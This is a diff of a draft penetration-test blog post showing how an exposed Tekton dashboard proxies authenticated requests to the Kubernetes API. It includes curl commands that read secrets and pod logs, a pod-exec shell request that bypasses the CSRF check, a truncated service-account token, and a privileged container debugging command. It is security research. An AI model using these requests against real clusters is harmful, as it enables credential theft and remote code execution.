

wip

Changed region(s): [[0.0, 0.0, 0.9967, 0.7271], [0.0, 0.7562, 0.7475, 0.9888], [0.0311, 0.7271, 0.0623, 0.7562]]

diff --git a/content/posts/tekton/index.md b/content/posts/tekton/index.md
@@ -40,7 +40,7 @@ By default, the kubelet starts with the `--anonymous-auth` parameter set to `tru
 
 Unfortunately, accessing the reported endpoint at `/pods` returned a 404 error, indicating that it was not a kubelet. It could still be a Kubernetes API server but that would require authentication. A quick test revealed the following:
 
-`curl http://127.0.0.1:9097/api/v1/secrets`:
+`curl http://tekton-dashboard:9097/api/v1/secrets`:
 
 ```json
 {
@@ -59,7 +59,7 @@ Unfortunately, accessing the reported endpoint at `/pods` returned a 404 error, 
 
 This response strongly resembles a Kubernetes API reply and, more importantly, it appears to be authenticated with the `system:serviceaccount:tekton-pipelines:tekton-dashboard` user.
 
-### Proxying with Tekton
+## Proxying with Tekton
 
 As indicated by the name of the service account, we were dealing with [Tekton](https://tekton.dev/):
 
@@ -78,7 +78,7 @@ Leveraging the pre-authenticated proxying behavior of Tekton, it's possible to v
 This example contained a hard-coded secret value, obviously not recommended but nonetheless it happens. The [mysql image](https://hub.docker.com/_/mysql) used in this scenario could also be started with the `MYSQL_RANDOM_ROOT_PASSWORD` environment variable set. This generates a random password and prints it to stdout where we could still access it:
 
 ```
-└─$ curl -s http://127.0.0.1:9097/api/v1/namespaces/default/pods/db/log 
+└─$ curl -s http://tekton-dashboard:9097/api/v1/namespaces/default/pods/db/log 
 ...
 2024-09-07 12:10:11+00:00 [Note] [Entrypoint]: Temporary server started.
 '/var/lib/mysql/mysql.sock' -> '/var/run/mysqld/mysqld.sock'
@@ -88,32 +88,27 @@ This example contained a hard-coded secret value, obviously not recommended but 
 
 At this point, I had gained access to several credentials and informed the client accordingly.
 
-To see what else we can do with that endpoint lets take a look at the source code
-If we take a look at the [source code](https://github.com/tektoncd/dashboard/blob/main/pkg/router/router.go) we can confirm that it is possible to reach every Kubernetes API endpoint located at a path starting with either `/api/` or `/apis/`.
 
-
-The `Register` function 
-
-Uses [client-go](https://pkg.go.dev/k8s.io/client-go@v0.31.0#section-readme)´s `InClusterConfig()` to get a `config` containing the authentication details of the service account:
+To see what else we can do with that endpoint lets take a look at the [source code](https://github.com/tektoncd/dashboard/blob/main/pkg/router/router.go). Initially, [client-go´s](https://pkg.go.dev/k8s.io/client-go@v0.31.0#section-readme) `InClusterConfig()` is used to get a `config` containing the authentication details of the service account:
 ```go
 func main() {
 ...
 	var cfg *rest.Config
 	var err error
-	if cfg, err = rest.InClusterConfig(); err != nil {
+	if cfg, err = rest.InClusterConfig();
+    err != nil {
 		logging.Log.Errorf("Error building kubeconfig: %s", err.Error())
 	}
 ...
-	resource := endpoints.Resource{
-		Config:    cfg,
-		K8sClient: k8sClient,
-		Options:   options,
-	}
 	server, err := router.Register(resource, cfg)
 ...
+	l, err := server.Listen("", *portNumber)
+...
+	logging.Log.Fatal(server.ServeOnListener(l))
+}
+...
 ```
-
-Uses that `config` in the [`Register()` function](https://github.com/tektoncd/dashboard/blob/main/pkg/router/router.go#L125) to create a `proxyHandler` that will then handle requests 
+That `config` is then used in the [`Register()`](https://github.com/tektoncd/dashboard/blob/main/pkg/router/router.go#L125) function  to create a `proxyHandler` to serve endpoints with paths starting with either `/api/` or `/apis/`.
 ```go
 func Register(r endpoints.Resource, cfg *rest.Config) (*Server, error) {
 	logging.Log.Info("Adding Kube API")
@@ -124,11 +119,11 @@ func Register(r endpoints.Resource, cfg *rest.Config) (*Server, error) {
 		return nil, err
 	}
 	mux := http.NewServeMux()
-	mux.Handle(apiProxyPrefix, proxyHandler)
+	mux.Handle(apiProxyPrefix, proxyHandler) 
 	mux.Handle(apisProxyPrefix, proxyHandler)
 ```
 
-`NewProxyHandler()`
+The `proxyHandler` is created via `NewProxyHandler()`. This looks familiar, as it is almost identical to the [code](https://github.com/kubernetes/kubectl/blob/master/pkg/proxy/proxy_server.go#L195) used by kubectl itself when proxying connections to the Kubernetes API (`kubectl proxy`).
 ```go
 func NewProxyHandler(cfg *rest.Config, keepalive time.Duration) (http.Handler, error) {
 	host := cfg.Host
@@ -154,29 +149,48 @@ func NewProxyHandler(cfg *rest.Config, keepalive time.Duration) (http.Handler, e
 	proxy.UseRequestLocation = true
 	proxy.UseLocationHost = true
 
-	proxyServer := protectWebSocket(proxy)
+	proxyServer := protectWebSocket(proxy) <--
 
 	return proxyServer, nil
 }
 ```
-NewUpgradeAwareHandler() --> struct but it implements the "serverHTTP" interface which makes it a legit http.handler
+A noticeable change is the addition of `protectWebSocket(proxy)`, this is a protection against cross-origin websocket hijacking, which is irrelevant as we are not constrained by a browser. Lastly, in [`ServeOnListener()`](https://github.com/tektoncd/dashboard/blob/main/pkg/router/router.go#L183) a CSRF protection is added:
 
-The same function used within kubernetes itself to power proxying for example for the kubectl port-forward command
-https://github.com/kubernetes/kubernetes/blob/master/pkg/kubelet/server/server.go#L918
+```go
+func (s *Server) ServeOnListener(l net.Listener) error {
+	CSRF := csrf.Protect()
 
-
-works for spdy requests too:
+	server := http.Server{
+		Handler:           CSRF(s.handler),
+		ReadHeaderTimeout: 30 * time.Second,
+	}
+	return server.Serve(l)
+}
 ```
-k --server='http://127.0.0.1:9097' exec -it busybox --token=$token -v9 -- sh   
--->CSRF header not found in request
-Experiments/tekton/dashboard/pkg/csrf/csrf.go just add tekton header
-
-curl -v -XPOST  -H "X-Stream-Protocol-Version: v5.channel.k8s.io" -H "X-Stream-Protocol-Version: v4.channel.k8s.io" -H "X-Stream-Protocol-Version: v3.channel.k8s.io" -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -H "User-Agent: kubectl/v1.29.1 (linux/amd64) kubernetes/bc401b9" 'http://127.0.0.1:9097/api/v1/namespaces/default/pods/busybox/exec?command=sh&container=busybox&stdin=true&stdout=true&tty=true' -H "Tekton-Client: 1" -H "Authorization: Bearer $token"
+For http methods deemed unsafe it expects a hard-coded header with the name `Tekton-Client`.
+```go
+func (cs *csrf) ServeHTTP(w http.ResponseWriter, r *http.Request) {
+	if _, ok := safeMethods[r.Method]; !ok {
+		csrfHeader := r.Header.Get(cs.opts.HeaderName)
+		if csrfHeader == "" {
+			cs.opts.ErrorHandler.ServeHTTP(w, r)
+			return
+		}
+	}
 ```
 
+To summarize, if someone adhered to best practices and restricted network access to the Kubernetes API server but has a Tekton dashboard exposed to the internet, we can use its proxy to gain almost unrestricted access to the API server again.
 
 
-attacks possible cause of exposed api:https://www.cvedetails.com/cve/CVE-2018-1002105
+For convenience I [patched](https://github.com/fl0mb/kubernetes) kubectl to add the `Tekton-Client` header and to allow authentication when using unencrypted http. Now we can either use the privileges of the `tekton-dashboard` service account:
+![](whoami.png)
+
+Or use credentials obtained in another way, for example service account tokens read via a file inclusion vulnerability in a web application:
+![](shell.png)
+
+### RCE
+
+Initially, when I visited the root url
 
 Interestingly this only works in the `tekton-dashboard` namespace. Both `tekton-pipelines` and `tekton-pipelines-resolvers` have [pod security standards](https://kubernetes.io/docs/concepts/security/pod-security-standards/) profile `Restricted` applied:
 
@@ -188,7 +202,7 @@ In addition to that, it is a requirement of several CI systems to execute privil
 
 
 
-To angry? ask on signal / ask david
+
 
 ### Summary
 With an internet exposed Tekton dashboard you can:
@@ -211,18 +225,19 @@ No changes for tekton pipelines in general?
 # To do:
 **The ai takes instructions from the text too**
 - better introduction/summary
-- does proxying work in latest version?
-Tekton: proxying Code zeigen - Test arbitrary Endpoints/ also works in read-only mode ? So still useful
-Was ist denn der logs-proxy?
-Erfahrungsbericht reicht auch für Blogpost so wie das mit dem Azure bootstrap token. Evtl auch CW blog
 
-Only proxies http but works with svc acc token:
-```
-k create token default -n kube-system
-eyJhbGciOiJSUzI1NiIsImtpZCI6IkNFUEtDd2xSU0dlZlFKSGtkRmVkeEMwSm4xODh4WWJkWWtYRUVRRTFKb2MifQ.eyJhdWQiOlsiaHR0cHM6Ly9rdWJlcm5ldGVzLmRlZmF1bHQuc3ZjLmNsdXN0ZXIubG9jYWwiXSwiZXhwIjoxNzI1Nzk1MjI5LCJpYXQi
+- To angry? ask on signal / ask david
+- to verbose / simple?
+- Was ist denn der logs-proxy?
+- Erfahrungsbericht reicht auch für Blogpost so wie das mit dem Azure bootstrap token. Evtl auch CW blog
+- links wirken etwas random
+- mention shodan query
 
-curl -s http://127.0.0.1:9097/api/v1/secrets -H "Authorization: Bearer eyJhbGciOiJSUzI1..."
-```
+- NewUpgradeAwareHandler() --> struct but it implements the "serveHTTP" interface which makes it a legit http.handler
+- The same function used within kubernetes itself to power proxying for example for the kubectl port-forward command
+https://github.com/kubernetes/kubernetes/blob/master/pkg/kubelet/server/server.go#L918
+uses proxyStream() which uses NewUpgradeAwareHandler()
+- As mentioned in https://github.com/kubernetes/kubectl/issues/744#issuecomment-545757997 client-go does not send authentication for plaintext connections.
 
 **Lausige Ausrede!! die haben das in den anderen Namespaces**
 
@@ -289,18 +304,16 @@ status:
 
 ```
 
-I can exempt users from podsecurity configuration:
-https://kubernetes.io/docs/tasks/configure-pod-container/enforce-standards-admission-controller/#configure-the-admission-controller
+# Backup
 ```
-Only works for new clusters:
-minikube -p tekton-dashboard-tutorial start --extra-config=apiserver.admission-control-config-file=/mnt/extraconfig/AdmissionConfig.yaml --mount ./mountdir:/mnt/extraconfig
-```
-After failed start, options can only be removed manually in 
-`vim ~/.minikube/profiles/tekton-dashboard-tutorial/config.json`
+└─$ ./kubectl-patch auth whoami --server='http://tekton-dashboard:9097'
+ATTRIBUTE                                      VALUE
+Username                                       system:serviceaccount:tekton-pipelines:tekton-dashboard
+UID                                            157053df-210e-46cd-8932-7b898348e22e
+Groups                                         [system:serviceaccounts system:serviceaccounts:tekton-pipelines system:authenticated]
+Extra: authentication.kubernetes.io/pod-name   [tekton-dashboard-7dcdbc4f54-kqggl]
+Extra: authentication.kubernetes.io/pod-uid    [30265944-5df4-45f7-9f81-8e8a3cd1fa60]
 
-better debug from a node:
-```
-minikube ssh
-docker run -it --rm  --pid=container:54baf5314f3e --privileged busybox sh
-cat /proc/1/cwd/....
+
+
 ```
